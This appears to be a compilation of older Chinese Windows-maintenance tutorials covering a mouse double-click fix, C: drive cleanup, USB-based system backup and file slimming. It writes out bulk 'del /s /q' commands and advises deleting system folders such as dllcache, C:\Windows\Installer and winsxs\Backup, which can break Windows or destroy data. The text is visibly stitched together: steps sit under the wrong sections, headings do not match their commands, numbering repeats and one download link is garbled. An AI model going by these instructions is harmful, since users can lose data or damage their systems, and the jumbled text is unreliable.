首先单击屏幕左下方的“开始”，在其下级菜单中依次单击“设置”→“控制面板”，对着“鼠标”双击鼠标左键，将“鼠标键”标签栏的“鼠标键标准设置”一栏中的“切换主要和次要的按钮”前面的钩去掉，点击确定完成设置。
然后打开“我的电脑”，依次点击窗口上方的“工具→文件夹选项”菜单，在“常规”选项卡的“打开项目的方式”中，选择“通过双击打开项目（单击时选定）”。点击确定完成设置。

最后对着“我的电脑”点击鼠标右键，在菜单中单击“属性”，打开系统属性界面。再单击“硬件”选项卡，接着单击“设备管理器”按钮，在“设备管理器”单击展开“通用设备总线控制器”，对着自己鼠标接口（具体情况根据实际而定）单击鼠标右键，选择“属性”，在属性界面中进入“高级”选项卡，将其中的“不要通知我USB设备错误”打钩选上，点击确定完成设置，这个设置能让你的鼠标更加的灵敏。

当我们进行完上述一系列的系统设置后，我们就可以看看我们的鼠标是否已经正常了，如果仍然出现单击变双击现象，那么就可以断定不是软件问题引起的鼠标异常，而是鼠标自身硬件出了问题了。

就算是鼠标硬件出现了问题，我们也不必太过担心，且让我们进入下一步骤，去看看如何解决鼠标硬件自身的问题。

### 第三步：鼠标单击变双击的修复软件的应用

当我们确定了是鼠标本身硬件出了问题，从而导致单击会变双击的异常后，我们先不必将其大卸八块，可以先通过软件尝试修复单击变双击这个异常情况。笔者现在向大家介绍一款鼠标单击变双击的修复工具，让我们一起来看一看如何通过软件工具来修复鼠标硬件的异常吧。

由鼠标电路异常引起的双击行为的双击时间间隔一般都非常的小，与用户进行正常的双击行为的双击时间间隔有很大的差别，一般正常的双击是达不到这么快的速度的。因为这个原理，我们就可以通过一些软件自动屏蔽掉由鼠标异常引起的双击行为，比如鼠标双击修正工具DoubleClickFix（下载地址：http://down1.tech.sina.com.cn/download/down_contents/1223740800/41184.shtml）就是为此设计的一款小巧好用的软件。

我们从上面的网址将DoubleClickFix下载后解压到本地硬盘，打开软件所在目录，双击鼠标左键打开DoubleClickFix.EXE。我们可以发现DoubleClickFix是一款傻瓜级的软件，并且是中文版的，我们在软件界面中将“挂接类型”中的“鼠标左键”选中，帮助你屏蔽由鼠标异常引起的自动双击问题，并且不会影响你的正常双击操作。我们把鼠标指针移到DoubleClickFix在系统托盘的图标上，可以看到DoubleClickFix为你屏蔽了多少次鼠标的异常自动双击行为。如图1。



通过这款方便实用的鼠标双击修正工具DoubleClickFix，可以让你非常容易地摆脱鼠标自动双击的困扰。但是有些朋友可能会对这个软件不感兴趣，毕竟DoubleClickFix只是治标不治本，那么，如果我们想从根本上修复鼠标自动双击的问题，应该怎么做呢？下面就请大家跟着作者一起来看看如何将鼠标“大卸八块”吧。

### 第四步：鼠标单击变双击故障的硬件修复

在将鼠标“大卸八块”之前我们需要准备好工具，我们需要一个小号的改锥、一个小号的镊子、一些牙签和棉签，以及酒精。在开始对鼠标下手之前我们要先将鼠标与电脑断开连接，将其插口从电脑上拔下来，以避免在修理鼠标时出现意外。

当我们做好准备工作后，就可以动手了，我们先修理鼠标的微动开关。我们在拆外壳时应该仔细寻找鼠标外壳上的一些接合点，从接合点下手才能安全简单地拆开鼠标外壳。拆开鼠标外壳后我们可以看到鼠标的电路板，电路板上会有一个黑色的小盒子，它就是我们要修理的微动开关了（图2）。



接下来我们要打开微动开关，在打开微动开关时千万要小心，它可是一个脆弱的部件。我们用一根牙签从微动开关侧面下方的小洞插入，并轻轻撬动微动开关中部的卡子将其打开。这里一定要注意，不能乱捅一气，应该仔细观察其构造，以避免损坏微动开关的塑料外壳。当我们轻轻撬动微动开关的卡子后，用手轻轻地打开微动开关的外壳就可以看到下面的铜片了，它就是很多鼠标异常的元凶了。

我们仔细观察这块铜片，正常情况下它表面是平整光滑的，如果铜片变形了，那么我们应该慢慢地将它取下来，小心用手把铜片弄回原样，然后再装回原处。一般来说，用得久的鼠标的微动开关铜片会比较的脏，鼠标自动双击的故障很有可能就是由此所导致的。我们用棉签蘸上一点酒精，轻轻地擦洗铜片和其周围，在清洗的时候，不能太过用力，用力要均匀，避免铜片移位，并且手上不要带水，否则容易造成鼠标电路短路。

在清洗完铜片之后，我们还应该处理一下铜片接触点长毛刺的问题，这个问题也很容易导致鼠标异常。我们首先找一张细砂纸，然后慢慢地将铜片接触点的毛刺磨平，但是小心别把其他部位也磨了，只要把毛刺磨掉就可以了。磨完毛刺之后将毛刺倒出，再用酒精清理一下这些地方就可以了。

在这些工作完成之后，就可以把鼠标按原样装回了。安装好后试用，一切都应该正常了，单击是单击，双击是双击。

在经过以上4个步骤的修复后，相信你已经摆脱了鼠标单击变双击的烦恼了吧？如果还不行，那么就只能建议你去更换一个新鼠标了。

小结：在我们日常使用电脑时，鼠标可以称得上是我们使用频率最高的电脑部件了，如果它出现了问题，那么我们还真是会手足无措。其实，有很多的鼠标异常都是可以避免的，我们只要养成一些良好的使用习惯就可以了，比如说在一个清洁的环境中使用鼠标，比如说使用鼠标时要轻拿轻放，比如说定期给鼠标“洗澡”。在鼠标出现问题后，我们也不要慌乱，应该按照先软后硬的顺序，检查鼠标为什么会出现问题。很多时候，就像上文提到的，鼠标自动双击或者一些其他的异常只是因为系统设置没弄好而导致的，这些其实都很容易解决，只要你够细心！

## 六、用好软件的自动恢复功能

使用电脑的确是给我们带来了极大的方便，不过，任何事物都有其两面性，有时大家可能会因为软件本身或文件发生损坏而影响了工作效率。但是，现在计算机技术很发达，很多软件都具有自我修复的本领，往往可以让我们化险为夷！

### 1.一般软件自动恢复功能

现在很多软件的安装程序具有自动修复功能，如果软件出了问题，可以选择“开始”→“设置”→“控制面板”，双击“添加/删除程序”图标，然后选中相应程序，双击它（如果有“修复”或者“配置”按钮，则单击之），在打开窗口选择相应的修复选项，再顺着向导即可修复成功。如图17，是Office 2003正在试图修复自己。



### 2.Windows Live Messenger

在Windows Live Messenger中出现问题时，可以单击“疑难解答”，在打开窗口中单击“修复”按钮来进行修复。

### 3.Office文档恢复

如果你使用Office XP/2003，突然出现蓝屏或是断电。重启，运行Word，会发现一个“文档恢复”工具栏，单击相应文件即可打开，接下来另存一下即可，此技巧对于Excel、PowerPoint同样适用。如果你使用较旧版本的Office系统，可能不会看到如图18所示的窗口。可以打开断电前文件所在文件夹，选择“工具→文件夹选项→查看”，设置“显示所有文件和文件夹”，找到一些以~开头的隐藏文件，把它们按日期排列，试着用Word逐一打开最近的文件可以恢复。

## 揪出消耗C盘空间的幕后黑手

现在的硬盘容量主流都在320GB以上，按说不会出现硬盘不够用的情况。但可惜的是，很多人在给C盘分区时，分得不够大。系统使用一段时间后，磁盘的可用空间都会莫名其妙减少，系统盘就频频告急，即使你没有增加文件。往往没有运行几天，而由于C盘比较敏感，所以我们不可能去删除掉一些重要的文件（如系统、程序文件夹等），否则将会引起崩溃。那到底是谁在偷吃磁盘空间呢？哪些内容是消耗C盘空间的幕后黑手？平时应该怎样避免C盘空间减少，从而保证系统运行顺畅？

◆文/江北书生

## 一、系统文件

### 1. 临时文件

不用说了，临时文件总是会产生很大的空间。解决办法是：

按下Win+R，输入cmd，然后输入如下语句：

```
cd %temp%
del *.* /s /q
```

之后，再右击桌面“我的电脑”图标，选择“属性”，并在打开的“属性”窗口中单击“高级”标签，并单击“环境变量”按钮，然后选中“环境变量→Administrator 的用户变量→TEMP”，并单击“编辑”按钮，在打开的“编辑用户变量”对话框中把原来的“%USERPROFILE%\Local Settings\Temp”改为<D:\temp>。同样，把TMP变量改为<D:\temp>。接下来，再按上述办法将“环境变量→系统变量”中的TEMP和TMP变量均指向<D:\temp>。这样设置后，临时文件将会放到d:\temp下了，定期清理即可。

- ★如果你不是以Administrator登录的，那就把上述用户名换成你的登录名。
- ★如果安装有多个操作系统，还可以通过上面的技巧将临时文件夹统一放到一个分区上，不至于混乱。

### 2. 分页文件

如果我们系统有2GB的内存，可以不让系统使用分页文件。在Windows XP中，右击桌面“我的电脑”图标，选择“属性”命令，在打开的“属性”窗口中单击“高级”标签，并单击“性能”下的“设置”按钮。在打开的窗口单击“高级”标签，再在“性能选项”窗口中单击“虚拟内存”旁的“更改”按钮，在打开的窗口中选择C盘，再在下方单击“无分页文件”项后，单击后面的“设置”按钮。重新启动电脑生效。

### 3. 休眠文件

休眠会占用很大的空间，一般情况下，我们并不使用。这时，可以在“控制面板”中双击“电源选项”，在弹出属性窗口后选择“休眠”选项卡，并取消“启用休眠”复选框（如图1），单击“确定”。之后，重新启动电脑，将c:\hiberfile.sys删除掉即可（极有可能需要先让系统显示所有文件，因为它是隐藏的）。

如果大家使用Windows Vista，可以在Vista的控制面板中打开“电源管理”窗口，在其中取消Vista的睡眠功能。之后右击C盘，选择“属性”，在点击C盘的属性窗口中点击“磁盘清理”按钮，即可开始扫描系统盘。之后在弹出的“磁盘清理”窗口中的“要删除的文件”列表中选中“休眠文件清理器”项，单击“确定”按钮就可以彻底删除Vista的休眠文件了。



### 4. 关闭系统还原 设置还原空间大小

Windows XP安装时默认是打开系统还原并监视所有驱动器。这样随着用户使用系统时间的增加，还原点会越来越多，就会占用大量磁盘空间。事实上，我们完全可以将其关闭（对老鸟来说）或调整其磁盘空间大小。

右击“我的电脑”，选择“属性”命令，单击“系统还原”标签。选中“在所有驱动器上关闭系统还原”项，之后系统会提醒我们关闭系统还原会删除掉所占空间，确认后即被删除。

如果大家还是希望能够使用系统还原，可以选中C盘，单击“设置”按钮，拖拉“要使用的磁盘空间”下的滑块，设置“系统还原”所占用的磁盘空间大小，可以将其设置为默认值200MB（如图2）。如果磁盘空间用尽，则“系统还原”将“挂起”，只有重获空间后，才会自动激活，但以前的还原点都将丢失。



## 三、图像和办公程序

### 1. ACDSee

ACDSee会把浏览过的图像记录，一旦生成缩略图，就会储存到它的数据库文件当中，时间一长，会变得相当大。

解决方法：直接删除<C:\Documents and Settings\Administrator（或者其他登录的用户名）\Application Data\ACD Systems\ACDSee>目录下面的ImageDB.ddf和ImageDB.dtf两个文件即可。要想根除，也可以打开ACDSee，单击“工具→选项”，在选项窗口左边选择“数据库”，去掉右边窗口的“储存缩略图”复选框就可以禁止生成数据库文件。

### 2. Office 2003

默认情况下，安装Office 2003会在硬盘上留下一个MSOcache的文件夹，而且比较大，我们完全可以将其删除。另外，我们还可以把Office 2003安装光盘上的所有文件（夹）拷贝到一文件夹下，如D:\Office。然后按下Ctrl+A，右击，选择“属性”，再在打开窗口中去除“只读”前的勾选，从而去除掉所有文件的只读属性。再启动“记事本”，打开D:\Office\FILES\SETUP\SETUP.INI文件，定位到[cache]节，把其中的CDCACHE=auto改为CDCACHE=0。以后，使用这张光盘安装Office 2003，则不会在硬盘上留下MSOcache文件夹。

## 四、网络程序

### 1. IE浏览器缓存

上网浏览过的网页都会被保存在IE的缓存中，这样再次打开同样的网页时IE就会直接从缓存中调用网页而不是连接到网络服务器，以加快访问速度。时间一长，缓存占用的磁盘空间就会越来越多。

解决方法：打开<C:\Documents and Settings\Administrator（或者其他登录的用户名）\Local Settings\Temporary Internet Files>文件夹，将里面的文件删除即可。

启动IE，选择“工具”→“Internet选项”命令，单击“常规”标签，在“Internet临时文件夹”中单击“设置”按钮，并在打开的“设置”对话框中单击“移动文件夹”按钮，然后再在打开的“浏览文件夹”对话框中选中我们设置好的一文件夹（不在C盘上），按下“确定”按钮返回。以后，IE的临时文件将不会再保存于C盘，这样就为C盘减轻负担了。

### 2. 迅雷

默认情况下，迅雷安装后会在C盘创建一个TDDownload目录，并将所有下载的文件都保存在这里。因为现在网上下载的资源越来越大（主要是游戏和高清影视等），这也会大大消耗C盘空间，而且弄不好就会因为空间不够而影响下载！在硬盘海量和“当馒头卖”的廉价的时代里，完全可以将下载位置进行修改，将其指向更好、更大的硬盘，对于下载的速度、稳定性和安全都有帮助。

单击迅雷主窗口中的选中“已下载”，右击，选择“属性”。然后在窗口中设置默认文件夹。完成后按下“确定”按钮，迅雷还会弹出相应的确认对话框，建议选中“修改子类别的存储文件夹”和“移动本地文件”（如图3），这样软件会同时将C:\TDDownload下默认创建的“软件”、“游戏”、“音乐”、“影视”、“手机”和“书籍”等子文件夹一并移动，并且还会移动其中已经下载的文件。让我们做到“无缝移动”！



### 3. 电骡（eMule）

如果把电骡（eMule）默认安装在C盘上，那它也会将中间的临时文件和下载后的文件保存在C盘上。有幸的是，我们完全可以自行设置：启动电骡，单击“选项”按钮，打开“选项”窗口，单击左侧“目录”，然后将“下载文件”和“临时文件”设置到非C盘上即可。

### 4. PPLive

PPLive会在硬盘根目录下生成一个pfsvoddata.bbv文件或PFSVODDATA目录，而且有1GB之多。这是PPLIVE在点播时用作缓冲的，直接删除就可以了。不影响任何东西的使用的。

### 5. PPStream

只要用了PPStream点播功能，硬盘分区里就会多出一个1GB大小的ppsds.pgf文件（生成的文件保存在PPStream安装硬盘根目录下），ppsds.pgf的作用主要用于点播时的缓冲，使缓冲时间更短，打开点播视频更快。要选择不隐藏系统文件属性，才能看到这个文件。而且删除后再观看PPStream点播功能会重建这个文件，这个文件不能用Windows的垃圾清理自动清理。

但笔者有个较好的技巧删除ppsds.pgf文件，就是把缓存路径设置为IE临时文件夹的路径，这样的话在清除IE临时文件的同时可以顺便把ppsds.pgf删除。

最后要说明的是，该文件与PPStream最新自带的加速器ppsap相关联，如果进程中有ppsap则无法删除ppsds.pgf，需要先关掉ppsap进程再删除。

### 6. QQ

QQ的空间往往会更大，大家可以将安装文件夹直接转移到另外的分区上（后面会介绍到）。实在不行，要记着打开QQ安装目录下自己号码的文件夹，找到CustomFaceRecv和Image文件夹，将其中真正压缩的图片转存出来，再清空即可。顺便再清理一下QQ目录下保存广告的ad文件夹。

返回到QQ安装文件夹，删除掉QQFileCache、Image、CustomFace、UserHead、QQPhoto、CommerceRecv和QQSpaceFile文件夹下的所有文件。

## 四、杀毒程序

### 1. 清理杀毒软件隔离的带毒文件

病毒隔离系统是杀毒软件自动备份带毒文件的系统，它会保存带毒文件完整备份，以便恢复带毒文件或还原误操作等原因造成的文件损坏，保护重要资料。但是随着时间推移，病毒隔离系统的备份文件会越来越多，因此查杀完病毒后，应该定期打开病毒隔离系统，将无用的备份病毒文件删除。下面以大蜘蛛为例加以说明。

右击任务栏托盘区处的大蜘蛛图标，选择“设置”，然后单击“操作”标签，在下方可以看到隔离路径，我们可以自行设置。

当然，在自行设置后，必须将默认C:\Program Files\DrWeb\infected!!!文件夹中的所有隔离文件移动到新设置的文件夹中，对于没有用的文件，可以直接删除掉，并清空回收站，以防止这些感染文件危害系统。

## 五、让C盘的常驻房间搬房间

对于C盘中的一些文件，我们可以施展乾坤大挪移，将它们转移到别的分区去，当然不是简单的剪切、粘贴（系统文件是不能直接转移的），这些比较简单，下面给出两个实用办法。

### 1. 直接给应用程序搬家

像QQ、Foxmail、Dreammail之类的程序，可以直接将其安装文件夹移到另外的分区上，再在桌面上新建指向其的快捷方式即可使用。

### 2. 用软件给应用程序搬个家

有一些软件和系统集成较紧，如Office，直接移动安装文件夹肯定是不行的。最笨的搬家方法就是先卸载这些程序，再重新安装选择别的分区，这肯定不是大家想要的，操作起来太麻烦。有了Mover98，我们会方便得多，它可以将已经安装的软件，从一个分区整个搬动到另外的分区或文件夹下，而且不仅仅是搬动软件，包括所有与该软件相关的文件夹、开始菜单的快捷启动方式、桌面快捷方式、动态链接文件等都会通通一并搬动或重新设置。

### 3. 把软件安装到其他分区上

在Windows XP安装后，我们必须安装相应的软件才能够正常工作。现在硬盘很大，大家在安装这些软件时不要把它们安装到默认的C:\Program Files文件夹下，而可以把它们安装到其他分区上，这样也可以让Windows XP所在分区减肥很多。这对于安装很多软件的发烧友们尤为重要，效果也很明显。

## 六、治标更要治本，给C盘增加真的容量

上面介绍到的各种方法都是治标不治本的，只能暂时缓解C盘的紧张局势，并不能从根本上解决问题。要想从根本上解决问题，还需要给C盘真正增加它的物理容量。

### 1. 挂接NTFS卷

考虑到数据的安全性，可以采取Windows磁盘挂接功能来增大硬盘分区的容量。打开“控制面板”中的“管理工具”，双击打开“计算机管理”，选择“磁盘管理”选项，对话框右侧显示出本地硬盘的所有分区，在要挂接的分区上单击右键，执行“删除逻辑驱动器”命令，这时该分区变成了未指派空间。在原分区空间的位置单击右键，执行“创建逻辑驱动器”命令，在打开的“创建磁盘分区向导”对话框中单击“下一步”按钮，直至出现“指派驱动器号和路径”对话框。在此对话框中选择“将这个卷装入一个支持驱动器路径的空文件夹中”选项，然后单击“浏览”按钮。在打开的“浏览驱动器路径”对话框中会列出所有NTFS卷，单击C分区图标，然后单击“新建文件夹”按钮新建一个文件夹，将文件夹命名为“挂接点”，单击“确定”。单击“下一步”，在打开的“格式化分区”对话框中将卷标修改为“挂接卷”，对它进行格式化后就可以使用了。

> 使用此法的前提是C盘本身是NTFS分区格式。

### 2. 使用PQMagic调整分区

最常用的调整分区软件是PQMagic，我们可以通过PQMagic来将其他分区中多余的空间转移给C盘，增大C盘的空间。不过用PQMagic进行分区调整是要冒一定的风险的，在分区过程中千万不能断电，否则很有可能导致硬盘中数据丢失。

### 3. 再买块大硬盘

现在硬盘那么便宜，买一块新的换上！同时把C盘分得大些（30GB），然后把旧硬盘的系统分区通过Ghost中的Partition→Partition把旧硬盘C盘复制到新硬盘的C盘上，彻底解决问题！

## 大容量移动设备备份系统的三法

众所周知，Windows给我们带来方便的同时，也让我们不得不忍受系统从崩溃→重装的痛苦。不过，随着大容量移动设备的降价和速度的提升，我们完全可以将其系统备份到上面，这样在快要崩溃时，可以随时恢复。

### 一、大容量移动硬盘+WinPE

Windows PE的图形化界面很有用，这是众人皆知的。但是它一般只运行在光盘上，而很多机器为了省钱或轻薄并没有光驱。而系统崩溃无法进入，则让我们变得束手无策。将Windows PE安装到移动硬盘上是一个不错的主意。但市面上介绍的方法均要格式化移动硬盘，这在移动硬盘非常大的今天，由于其中保存了很多的资料，一旦格式化数据的重新拷贝则会变得非常麻烦。事实上，我们完全可以不用格式化移动硬盘，但却可以将Windows PE安装到其上。

#### 1. 下载老毛桃PE

从 http://cachefile.fs2you.com/zh-cn/download/bced94ad0c6a794c0481e9fa9cc14a66/%E8%80%81%E6%AF%9B%E6%A1%83PE0911%E5%8A%A0%E5%BC%BA%E7%89%88.iso 处下载“老毛桃PE0911加强版.iso”。

#### 2. 确认硬盘分区类型并可引导

将移动硬盘正确连接，启动Windows XP，再在“控制面板”中找到“管理工具”，依次进入“计算机管理→存储→磁盘管理”项目，如图1所示，分为上下两个窗口，上面显示了磁盘的基本信息，例如布局、类型、文件系统、状态、容量、空闲空间、容错、开销等，下面则显示磁盘的图例。由于是完全的简体中文Windows界面，所以使用起来非常方便。



请定位到我们的移动硬盘，确认分区是“主要磁盘分区”，并可引导。如果第一个分区不是主要磁盘分区，则不得不将其重新分区，并将分区设置为“主要磁盘分区”。如果其不能引导，则必须右击之，选择“将磁盘分区标为活动的”即可。
只有进行了这样设置，我们的移动硬盘才可以引导机器。

#### 3. 制作移动硬盘版Windows PE

将下载回来的老毛桃PE0911加强版.iso中所有文件解压到一文件夹下，如e:\software\sys\BootCD_070901\BootCD_070901，然后将其下的所有文件和文件夹拷贝到移动硬盘的根目录下，再将Wxpe文件夹下的NTDETECT.COM和SETUPLDR.BIN拷贝到移动硬盘的根目录下，同时将移动硬盘根目录中的SETUPLDR.BIN改名为ntldr（如图2）。



#### 4. 使用硬盘版Windows PE

将移动硬盘接到机器的USB口（必须是直接连接在机器南桥上的，而不是通过PCI转USB卡），在启动机器时按下相应的热键，一般是F8、F10、F11或Esc键可以出现启动菜单，选择我们的移动硬盘即可用它来启动Windows PE，并可以利用它来修复系统（内置有Ghost等工具）或拷贝文件。

#### 5. 备份/恢复系统

选择“开始”→“程序”→“克隆工具”→“诺顿Ghost32 v11”，将系统备份到移动硬盘上，现在USB 2.0速度相当快，很快就可以备份/恢复好（如图3）。



#### 6. 保护好Windows PE文件

为了防止误删除文件，可选中MiniPE、SETUP、WXPE文件夹和WINNT.XPE文件，右击，选择“属性”，再选中“隐藏”框将它们隐藏起来。然后分别右击NTDETECT.COM和ntldr，用相同的方法将其设置为隐藏属性。这样我们在移动硬盘上就看不到这些文件了，也不会误删除了。

### 二、大容量U盘+Flashboot

现在大容量U盘的价格相当便宜，16GB的也才几百元。所以我们也可以使用U盘+Flashboot来备份系统。

第一步：下载Flashboot
从thunder://QUFodHRwOi8vY291bnQuZ3JlZW5kLmNul3ZpZXdfZG93bi5hc3A/ZG93bmRfaW9MTcmZG93bmQ9MCZJRDO3MzE5JmRvd249eVwzWlo= 下载Flashboot。下载后，将其中的内容释放到一文件夹下，再双击其中的FlashBootWizard.exe启动向导。

第二步：选择启动类型
选择Other（其他）下的Create bootable flash disk with minimal set of DOS system files（生成一个DOS文件系统的U盘系统），单击Next按钮继续（如图4）。



第三步：选择DOS种类
选择第四项，Use built-in FreeDOS（使用内部的FreeDOS）。

第四步：选择写入U盘
选择第一项，同时确认U盘盘符。

第五步：确认写入模式
取消Save data on disk(avoid reformatting)，再选中第二项Superfloppy (USB-ZIP boot mode)。

**小知识：U盘也有多种启动方式**
U盘启动机器主要可以分为USB ZIP、USB FDD和USB HDD两种方式（当然，U盘还有一种Boot Other Device启动方式，但这样的主板并不多）。选择USB ZIP或FDD方式后，U盘启动后会把自身模拟为软盘，会出现A:\提示符。而选择USB FDD方式后，U盘启动后会把自身模拟为C盘。其余操作一样。一般情况下，我们选择USB ZIP方式。当无法启动时，再换成USB FDD或HDD方式。

第六步：正式写入
如图5，确认写入。

### 三、直接使用一键Ghost优盘版

一键Ghost优盘版很不错，可以将大容量的U盘打造成专用的Ghost备份工具。先从http://www.onlinedown.net/soft/48620.htm下载“一键Ghost优盘版”。在Windows XP系统里插入U盘，解压“一键Ghost优盘版”压缩包并执行“3_安装外壳.exe”文件，之后选择相应的U盘盘符（如图6），顺着向导即可制作成功。





第七步：下载Ghost程序
从http://www.xdowns.com/soft/6/145/2006/Soft_29929.html处下载Symantec Ghost V11.5.0.2113 绿色汉化集成版，然后将其中的所有文件解压到U盘的根目录中。

第八步：拷贝其他程序
从网上下载diskgen、himen.sys、smartdrv.exe。这些可以从论坛上找到，也可以从迅雷狗狗http://www.gougou.com上找到。下载完成后，将它们放到U盘根目录中。

第九步：编写config.sys和autoexec.bat文件
在U盘根目录下生成一个config.sys的文本文件，内容如下：

```
device=himem.sys
Lastdrive=Z
```

在U盘根目录下生成一个autoexec.bat的文本文件，内容如下：

```
Smartdrv
```

第十步：编写备份/恢复文件
编写bf.bat，内容为：ghost -sure -clone,mode=pdump,src=1:1,dst=1:2\sys.gho
编写hf.bat，内容为：ghost -sure -rb -clone,mode=pload,src=1:2\sys.gho:1,dst=1:1
用U盘启动机器，输入bf即可备份系统，输入hf.bat则可以恢复。

**小知识：设置U盘启动系统**
要让U盘启动系统，可以在开机后，按键盘DEL键进入BIOS设置画面，先选中“Advanced BIOS Features”选项，回车键后在菜单中选中“First Boot Device”选项，再按下回车键选择“USB-ZIP”选项，最后按下F10键保存BIOS设置。这样，主板就把U盘作为第一启动设备了。

接下来，在开机前插上U盘，开机后即可选择从U盘启动。进入U盘启动画面后，会看到“1KY GHOST”和“GHOST”两个选项。这里我们选择“GHOST”选项，它会启动最新版的GHOST 11.0程序，支持备份和还原NTFS分区，这样就可以随时对系统所在分区进行备份和还原了。

# 自己动手 将瘦身进行到底

虽说现在硬盘空间大了，可以装下的内容已经有很多了，但是不管怎样，我们都不希望有用的东西保存在上面，因此瘦身功夫就成了必修课。

◆ 文/江北书生

## 一、系统类

### 1. Windows XP

#### （1）删除备份驱动程序

Windows XP为了做到更加兼容，在自身里带了大量的硬件的驱动程序，但是Windows XP在安装完这些驱动程序后，仍会把它们放在Windows XP安装文件下的Driver Cache\i386文件夹下的driver.cab文件中。我们只要把它删除，就可以腾出73MB的硬盘空间。但大家要注意的是，在操作之前一定要确定自己的设备的驱动已经完全安装成功。

> DriverCache.cab中装的是Windows XP本身的驱动程序，以后如果在安装驱动程序时还有可能会用到。我们把它删除掉后，下次要用到时，Windows XP会弹出对话框让我们插入光盘，我们照着操作即可。

#### （2）删除dllcache

Windows从2000起采用了一种保护机制，可以防止被替换掉受到保护的系统文件，例如.sys、.dll、.ocx、.ttf、.fon 和 .exe 文件。Windows XP也不例外，一旦启动，它的文件保护机制在后台运行，Windows的文件保护能检测到其它程序要替换或移动受保护的系统文件的企图。而且Windows文件保护能检测文件的数字签名，以确定新文件的版本是否为正确的Microsoft版本。如果文件版本不正确，Windows 文件保护会从 Dllcache 文件夹或Windows XP安装盘中存储的备份文件替换该文件。而这些文件则保存在Windows XP安装目录下的system32\dllcache\文件夹下，占用很大的空间，大约是250多MB。

我们可以打开“资源管理器”，将c:\windows\system32\dllcache\文件夹完全删除掉。以后一旦Windows发现有文件需要保护，会提示我们插入Windows XP安装光盘。

#### （3）清除不必要的账户

有不少人的机器上有多个账户，这样就会在C:\Documents and Settings\下多一个以你所建账户为名的文件夹，里面存放着这个账户的一些资料，有收藏夹、文档、历史记录，系统、软件设置信息等内容，时间一长，它会占有很大的空间（如图1）！



对于不怎么使用的账户，可以打开“控制面板”，双击“用户账户”项目，并把一些不必要的账户删除掉！

### 2. Windows Vista

Windows Vista安装后硬盘占用空间更大，尤其是在安装Windows Vista SP1后。因此要对Windows Vista SP1进行减肥操作。主要的文件夹占用空间为：build 2.12GB、InstalledRepository 177MB、packages 510MB、Program Files 628MB、Windows 4.81GB等。不过，我们可以删除以下的文件夹：

C:\Windows\Web\Wallpaper 里面是Windows自带墙纸，不需要的可以删除掉，或者转移至其他盘（45.5MB）

C:\Boot 除zh-CN外均可删除，直接删除会提示无权限，方法同上（13.3MB）

C:\perflgs\System\Diagnostics 进行了Windows Vista系统测试之后的测试记录文件存放处，按照不同的日期一个文件夹来存放，不需要的可以删除之（9.39MB）。

C:\Windows\Downloaded Installations 有一些程序（如Dreamweaver等），安装的时候会把安装文件解压至此文件夹里面，可以删除。

C:\Windows\Help 帮助文件，可以删除。建议暂时保留，因为对这VISTA还不怎么熟悉，有时有点用处（105M）。

C:\Windows\IME 输入法文件，不清楚具体的哪个文件夹对应哪个输入法（136M）。一般来说，用紫光和搜狗、五笔的人很多，因此这个文件夹可以删除掉。

C:\Windows\Installer 已安装程序的卸载修改时所需程序，如果确定该程序安装后不用卸载，可以删除之，要不然以后要删除可能删不了（不过也可以重新安装再删），按安装程序的数量，几十到几百M不等。

C:\Windows\winsxs\Backup 这个里面是一些备份文件，可以删除（353MB）。

C:\ProgramData 一些程序安装时会放一些文件到这里面，看需要删除，例如装了iTunes之后会出现C:\ProgramData\Apple Computer\Installer Cache\iTunes 7.0.2.16这个文件夹，里面其实就是安装文件，可以删除，但是有些是软件运行时需要的文件，不能乱删，自己看着是安装文件的就可以删，此文件夹大小几十到几百MB不等。

C:\Users\Public 所有用户公用文件夹，里面有一些示例图片、视频等，可以删除之（217MB），其中C:\Users\Public\Recorded TV\Sample Media为Windows Media Center的示例电视录制文件（143MB），C:\Users\Public\Music\Sample Music为示例音乐（59MB），C:\Users\Public\Pictures\Sample Pictures为示例图片（4.7MB），C:\Users\Public\Videos为示例视频（9.6MB）。

经过上面的操作，C盘的空间会少出许多。用Ghost等软件来备份系统时将会大大减少其容量。

## 二、即时通讯类

即时通讯类主要瘦身的是其传输的文件。

### 1. QQ

单击QQ左下方的“菜单”按钮，选择“设置”→“系统设置”，再在打开窗口中单击“传输文件设置”项，可以看到传输文件所在文件夹，可以打开它清理（如图2）。

如果确认自己的邮件不再使用，可以打开Foxmail安装文件夹下的mail文件夹，在其下编写一个“清除所有邮箱.cmd”文件，内容如下（如图3）：

```
del *.box *.ind /s /q
```

双击后即可清除掉所有邮件。





转换音乐时推荐转为wma格式，转换视频时推荐转为rm格式，这样可以保证瘦身效果较好。

### 第三步：设置转换文件夹

在Destination下方可以单击Browse来设置转换后的文件夹，也可以单击Open按钮来打开此文件夹。

### 第四步：实现转换

单击窗口右上角的Encode即可开始转换，转换后的文件将保存在我们设置好的文件夹中。

### 2. MSN

在MSN中选择“工具”→“选项”，再在左侧单击“文件传输”项，可以看到文件保存文件夹，可以打开清理。

## 三、电子邮件类

### 1. Foxmail

#### （1）批量删除附件

平时，我们会收到很多带有附件的邮件，日积月累，它们会占用相当多的磁盘空间。原先版本的Foxmail并不支持批量附件处理功能，现在好了。我们只要选择“工具”→“附件管理”命令，即可打开窗口，我们只要选中某个邮箱，其下包含有附件的邮件，包括包含的附件、所在邮件、大小、发件人、发件日期都会显示出来，我们可以选中多个附件，单击下方的“删除附件”将它们删除掉而只留下信件内容。

另外，我们也可以在上方搜索相关附件的内容，完全支持中文。也可以打开附件、转发附件。要注意的是，“发件箱”、“垃圾邮件箱”和“废件箱”是不支持附件管理的。

不过随着收发信件的增多，软件的启动速度大不如前。手动一一删除无用的邮件太过麻烦，有时也会误删一些邮件。现在将附件删除掉，只留下信件，便于查找，非常有用。再配合下面的搜索技巧，可以为我们的邮件管理带来很大的方便。

#### （2）清理废件箱和垃圾邮件箱

如果只想清理废件箱和垃圾邮件箱，可以打开Foxmail安装文件夹下的mail文件夹，在其下编写一个“只清除废件和垃圾邮件箱.cmd”文件，内容如下：

```
del trash.* spam.* /s /q
```

双击后即可清除掉废件箱和垃圾邮件箱中的所有邮件。

#### （3）清理所有邮件

接下来，只要打开“命令提示符”，进入该文件夹，输入del *.bmp *.tif /s /q即可将所有bmp和tif图片删除掉。



### 2. Outlook Express

当我们在OE中执行删除邮件，或清空“已删除邮件”的文件夹操作时，OE并没有真正删除它们，而是将要删除的邮件隐藏起来而已，所以收件夹会越来越大。如果要真正清除掉这些要删除的邮件，请在OE的菜单中选择：“文件”→“文件夹”→“压缩所有的文件夹”，这样OE就会完全释放掉删除的邮件空间。

## 四、瘦身音乐/视频

音乐和视频文件往往较大，不过我们可以将其压缩为更高压缩率的文件格式，这里要用到Xilisoft Video Converter。

